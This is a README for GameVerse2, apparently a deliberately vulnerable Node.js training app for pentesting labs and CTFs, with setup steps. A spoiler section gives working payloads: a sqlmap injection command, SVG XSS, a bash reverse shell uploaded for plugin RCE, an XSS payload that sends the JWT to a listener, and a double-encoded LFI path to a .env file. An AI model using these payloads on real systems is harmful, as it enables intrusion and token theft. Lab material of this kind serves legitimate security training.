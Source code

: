 # GameVerse V2

GameVerse2 is a deliberately vulnerable web application built with Node.js and SQLite.  
It’s designed for pentesting labs, security education, and CTF-style training.

Frontend more or less vibe-coded, enjoy the looks :)
Feel free to use for whatever reason

> Do not deploy this server to a production or public environment.

![GameVerse logo](pic.png)

---

## Features

- User authentication with JWT
- SQLite database
- File upload
- Basic forum / comment system
- Deliberately insecure code for hands-on security training

---

## Getting Started

### 1. Clone the repository

```bash
git clone https://github.com/ettelman/gameverse2eng.git
cd gameverse2eng
```

---

### 2. Start with Node.js

> Make sure you have Node.js 18+ and npm installed.

#### Install dependencies:

```bash
npm install
```

#### Start the server:

```bash
node server.js
```

The server will run on [http://localhost:3333](http://localhost:3333)

---

![alt text](captura-2025-06-03-1748961130.png)

### 2.1 Start with Docker

> Recommended for clean lab environments

#### Build the image:

```bash
docker build -t gameverse2 .
```

#### Start the container (with database persistence):

```bash
docker run -p 3333:3333 -v $(pwd)/gameverse.db:/home/appuser/app/gameverse.db gameverse2
```

---

## Ports

- Default HTTP port: **3333**

---

<details>
  <summary>🕵️ <strong>Vulnerabilities (spoilers!)</strong></summary>

### SQLi in `/users`
Example with sqlmap:
```bash
sqlmap -u "10.3.10.182:3333/users/?q=*" --headers="Authorization: Bearer <JWT>" --tables --risk 3 --level 5
```

---

### Plaintext passwords in the database

---

### XSS via avatar URL (using `<object>`)
Create SVG (POC):
```xml
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert(1)</script>
</svg>
```
Embed the SVG like this when you send a message to another user:
```html
<object data="uploaded.svg" type="image/svg+xml"></object>
```

---

### Eval-based plugin RCE for admins
Create a .js file and upload it as an avatar with:
```js
require('child_process').exec('bash -c "bash -i >& /dev/tcp/localhost/4444 0>&1"');
```
Then access it with path traversal in the admin plugin system

---

### JWT exfiltration via XSS
Post the following in the forum section (example):
```xml
<svg>
  <animate onend="new Image().src='//localhost:4444/jwt?d='+encodeURIComponent(localStorage.getItem('jwtToken'))" dur="1s" attributeName="x"/>
```
Then catch the the token with nc -lvnp 4444

---

### LFI in `/images`
```plaintext
/images?path=%252e%252e%252fconfig%252fdev%252f.env
```
(Double URL-encode – `../config/dev/.env`)
</details>